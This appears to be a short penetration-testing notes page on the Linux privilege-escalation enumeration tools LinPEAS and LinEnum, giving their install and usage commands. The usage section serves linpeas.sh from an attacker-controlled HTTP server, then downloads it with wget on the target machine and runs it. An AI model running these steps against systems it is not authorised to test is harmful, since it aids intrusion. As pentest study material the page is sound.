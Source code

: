 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tools

## <mark style="color:green;">LinPeass</mark>&#x20;

* Script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts
* [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install peass
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
linpeas
python3 -m http.server $port #Create server to send file
#Target machine
cd /tmp
wget http://$hostIP:$port/linpeas.sh
bash linpeas.sh
```
{% endcode %}

***



## <mark style="color:green;">LinEnum</mark>&#x20;

* Another tool for linux enumeration
* [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

## Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
git clone https://github.com/rebootuser/LinEnum
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```
{% endcode %}

***

